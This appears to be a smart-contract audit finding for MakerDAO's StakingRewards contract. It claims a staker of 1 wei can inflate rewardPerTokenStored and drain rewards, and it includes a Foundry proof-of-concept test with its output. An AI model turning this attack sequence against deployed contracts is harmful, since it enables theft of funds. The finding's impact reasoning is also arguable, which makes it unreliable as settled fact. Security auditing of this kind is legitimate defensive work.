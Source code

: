 Brilliant Orchid Perch

Medium

# StakingRewards `rewardPerTokenStored` can be inflated and rewards can be stolen

## Summary

Inflating the `rewardPerTokenStored` is applicable with staking `1 wei` using the first staker and this will lead to drainage of rewards.

## Vulnerability Detail

As there isn't a minimum deposit amount criteria, any amount can be staked inside the StakingRewards contract. Considering this fact, when a user calls `stake()` with `1 wei`, it updates the `_totalSupply` as `1 wei` and the corresponding rewards through `updateReward` modifier. This modifier calls the function `rewardPerToken()`:

```Solidity
    function rewardPerToken() public view returns (uint256) {
        if (_totalSupply == 0) {
            return rewardPerTokenStored;
        }
        return
            rewardPerTokenStored + (((lastTimeRewardApplicable() - lastUpdateTime) * rewardRate * 1e18) / _totalSupply);
    }
```

This function would return the accumulated `rewardPerTokenStored` plus the linear increase of the reward. Since it depends on the denominator as `_totalSupply`, the whole multiplying will be divided by `1 wei` which will inflate the `rewardPerTokenStored` astronomically. Also there isn't any preventive check for the user to withdraw it in the withdraw function.
Thus, this scenario is applicable here:

1. User stakes `1 wei`
2. The `rewardDistributor` transfers `1 ether` reward tokens to the contract and calls `notifyRewardAmount()` with `1 ether`
3. Some time passes (e.g. 200 seconds)
4. At this time the rewardRate is incorrectly inflated and the user can withdraw and drain the rewards

## Proof of Concept

This test shows the attack vector explained above:

```Solidity
    function testFirstUserInflationAttack() public {

        uint rewardRate = staking.rewardPerToken();
        console.log("Initial Reward Rate is: ", rewardRate);

        address attacker = vm.addr(50);
        stakingToken.mint(attacker, 1 ether);
        vm.startPrank(attacker);
        stakingToken.approve(address(staking), 100 ether);
        staking.stake(1 wei);
        vm.stopPrank();

        vm.warp(block.timestamp + 100);

        vm.startPrank(rewardDistributor);
        rewardToken.transfer(address(staking), 1 ether);
        staking.notifyRewardAmount(1 ether);
        vm.stopPrank();

        vm.warp(block.timestamp + 100);

        rewardRate = staking.rewardPerToken();
        console.log("Reward Rate After Stake is: ", rewardRate);
    }
```

The test result is:

```Markdown
Ran 1 test for test/MakerTest.t.sol:MakerTest
[PASS] testFirstUserInflationAttack() (gas: 278449)
Logs:
  Initial Reward Rate is:  0
  Reward Rate After Stake is:  165343915343900000000000000000000

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 1.45ms (286.80µs CPU time)

```

## Impact

The first user can inflate the `rewardPerTokenStored` with staking just `1 wei` and after some time he can drain the accumulated rewards.

## Code Snippet

https://github.com/sherlock-audit/2024-06-makerdao-endgame/blob/main/endgame-toolkit/src/synthetix/StakingRewards.sol#L84C5-L91C1

## Tool used

Manual Review

## Recommendation

Consider putting deposit limits in the contract StakingRewards 